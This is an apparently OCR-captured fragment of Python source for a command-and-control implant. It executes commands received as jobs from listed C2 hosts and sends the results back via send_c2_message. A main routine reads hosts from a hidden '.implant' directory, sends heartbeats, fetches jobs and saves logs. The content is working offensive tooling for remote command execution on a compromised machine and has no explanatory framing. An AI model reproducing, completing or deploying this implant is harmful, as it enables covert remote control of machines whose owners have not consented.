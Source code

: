 ```bash
            if 'cmd' in job:
                job['success'] = True
                job['result'] = self.execute_cmd(job['cmd'])
                self.send_c2_message('job-result', job)
            else:
                job['success'] = False
                job['result'] = 'No command'
                self.send_c2_message('job-result', job)
        except ConnectionError:
            print('Could not get job')
        except TypeError:
            print('Job formatting error')
        except json.JSONDecodeError:
            job = {'success': False, 'result': 'JSON error'}
            self.send_c2_message('job-result', job)
            print('JSON error')    
        except binascii.Error:
            job = {'success': False, 'result': 'Encoding error'}
            self.send_c2_message('job-result', job)
            print('Encoding error')
        except Exception as e:
            print(f'Job execution error ({e})')


if __name__ == "__main__":
    log_dir = Path('/home/ada/.implant')
    hosts_file = Path('/home/ada/.implant/hosts')

    if hosts_file.exists():
        hosts = hosts_file.read_text().split('\n')

        commanders = [Commander(host, log_dir) for host in hosts if host != '']

        for commander in commanders:
            commander.send_heartbeat()
            time.sleep(1)
            commander.get_job()
            commander.save_log()
``` 





